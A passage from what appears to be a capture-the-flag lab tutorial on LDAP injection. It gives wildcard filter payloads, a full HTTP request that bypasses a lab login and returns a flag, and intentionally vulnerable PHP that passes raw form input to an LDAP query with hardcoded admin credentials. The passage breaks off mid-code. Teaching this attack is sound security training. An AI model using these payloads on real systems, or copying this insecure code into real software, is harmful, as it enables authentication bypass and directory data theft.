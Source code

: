 ```php
(&(uid=*)(userPassword=*))
```


This injection always makes the LDAP query's condition true. However, using just the `*` will always fetch the first result in the query. To target the data beginning in a specific character, an attacker can use a payload like `f*`, which searches for a uid that begins with the letter f.

```
POST /normal.php HTTP/1.1
Host: 10.10.145.164
Content-Length: 22
Cache-Control: max-age=0
Origin: http://10.10.145.164
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.145.164/normal.php
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9
Cookie: PHPSESSID=cq9o10opbl92mhtp2qg8tt6s3a
Connection: keep-alive

username=f*&password=*
```

```
Welcome, THM{!b451c_ld4p_inj3ct1ON!}!
```

## Blind LDAP Injection

Blind LDAP Injection is a more subtle variant of LDAP Injection, where the attacker doesn't receive direct output from the injected payload. Instead, they must infer information based on the application's behaviour. This type of attack is more challenging but can still be used to extract sensitive information from an LDAP directory.

Blind LDAP Injection requires a different approach due to the lack of explicit query results. Attackers must rely on indirect signs, such as changes in application behaviour, error messages, or response timings, to deduce the structure of the LDAP query and the existence of vulnerabilities.

For example, below is the code snippet of [http://10.10.145.164/blind.php](http://10.10.145.164/blind.php) that uses an LDAP query to check for the existence of a user but only returns a generic error message on failure. The application also checks if the submitted email is the same as the email in the database:

```php
$username = $_POST['username'];
$password = $_POST['password'];

$ldap_server = "ldap://localhost"; 
$ldap_dn = "ou=users,dc=ldap,dc=thm";
$admin_dn = "cn=tester,dc=ldap,dc=thm"; 
$admin_password = "tester"; 

$ldap_conn = ldap_connect($ldap_server);
if (!$ldap_conn) {
    die("Could not connect to LDAP server");
}

ldap_set_option($ldap_conn, LDAP_OPT_PROTOCOL_VERSION, 3);

if (!ldap_bind($ldap_conn, $admin_dn, $admin_password)) {
    die("Could not bind to LDAP server with admin credentials");
```